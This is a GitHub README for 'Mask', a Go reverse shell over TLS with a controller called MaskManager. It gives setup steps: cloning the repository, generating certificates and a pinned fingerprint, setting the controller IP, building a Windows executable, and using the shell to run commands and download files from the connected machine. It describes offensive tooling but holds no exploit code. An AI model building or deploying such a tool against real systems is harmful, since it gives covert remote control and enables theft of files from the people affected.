 # Mask - A platform independent reverse shell over TCP using TLS.

#####  Mask is a reverse shell over TCP using TLS and MaskManager is a manager for Mask .
#####  Certificate pinning is implemented to escape from MITM

## Getting Started

##### git clone https://github.com/diljithishere/mask.git
##### cd mask/src
#### Create certs and Finger Print
#### openssl genrsa -out server.key 2048
#### openssl req -new -x509 -days 1826 -key server.key -out server.crt
#### openssl x509 -fingerprint -sha256 -noout -in server.crt (Keep the output to update the mask.go source file)
#### go get github.com/fatih/color
#### Build Mask 
#### Update your Maskmanager ip  { MASKMANAGERIP := "ip:port" }
#### Update your fingerprint . { PINNEDFPRINT="YOUR:FINGER:PRINT" }
##### GOOS=windows GOARCH=386 go build -o mask.exe mask.go (For windows executable)
##### go build mask.go (Linux)

#### Build MaskManager 
##### go build -o maskmanager.exe maskmanager.go (Windows)
##### go build maskmanager (Linux)
#### Run Maskmanager 
##### ./maskmanager

#### Once if the mask runs Maskmanager's prompt will change to MaskTunnel
#### Run Normal shell commands based on OS plus you can download files usng get command . {get filename} {bye command will stop communication}


### Prerequisites

#### Go 1.9

## Built With
#### Go Lang

## Author

* **Diljith S** - *Initial work* - (https://github.com/diljithishere)
